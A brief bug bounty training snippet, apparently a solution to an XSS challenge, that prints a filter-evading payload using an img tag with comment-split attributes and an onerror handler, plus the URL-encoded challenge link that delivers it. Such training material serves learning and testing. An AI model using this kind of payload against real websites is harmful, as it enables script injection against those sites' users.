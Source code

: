 XSS Payload:


"><img/**/src='x'/**/onerror=alert(1)>

https://www.bugbountytraining.com/challenges/challenge-1.php?query=%22%3E%3Cimg%2F**%2Fsrc%3D%27x%27%2F**%2Fonerror%3Dalert%281%29%3E
